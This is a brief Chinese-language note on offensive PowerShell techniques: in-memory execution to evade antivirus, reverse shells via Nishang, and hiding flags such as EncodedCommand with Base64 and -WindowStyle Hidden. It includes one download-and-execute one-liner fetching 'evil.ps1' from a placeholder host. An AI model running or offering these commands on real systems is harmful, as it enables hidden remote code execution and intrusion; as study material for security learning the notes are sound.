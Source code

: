 ### 🔧 利用 PowerShell 的方式

- 記憶體中執行（避開防毒）
    
- 執行遠端下載指令：
    
    `iex (New-Object Net.WebClient).DownloadString("http://host/evil.ps1")`
    
- 反向連線 shell：
    
    - TCP、UDP、ICMP 模式都有（如 Nishang 工具集）
        

### 🎭 混淆與隱藏技巧

- `EncodedCommand` + `Base64`
    
- `-WindowStyle Hidden` 隱藏執行
    
- `-NoProfile` 不載入設定檔